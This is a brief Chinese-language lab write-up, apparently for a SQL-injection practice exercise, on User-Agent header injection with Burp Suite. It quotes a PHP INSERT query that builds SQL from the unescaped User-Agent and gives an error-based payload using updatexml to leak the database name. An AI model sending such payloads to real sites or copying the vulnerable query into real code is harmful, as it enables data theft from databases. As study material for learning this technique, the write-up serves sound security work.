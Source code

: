 # 使用 Burp Suite 进行 Header Injection

1. 首先我们需要争取到一个 username 和 password

2. 看到页面返回了 User Agent : ![image-20240504191737723](C:\Users\A2140\AppData\Roaming\Typora\typora-user-images\image-20240504191737723.png)

3. 查看 php 源码得知注入点就在 $uagent

4. ```php
   $insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
   ```

5. 先用 Burp Suite 拦截，修改 User-Agent 后再向服务器发送请求

6. 利用报错信息得到期望的数据库信息

7. ```
   User-Agent: 1'or updatexml(1,concat('~',(select database())),3),2,3)#
   ```



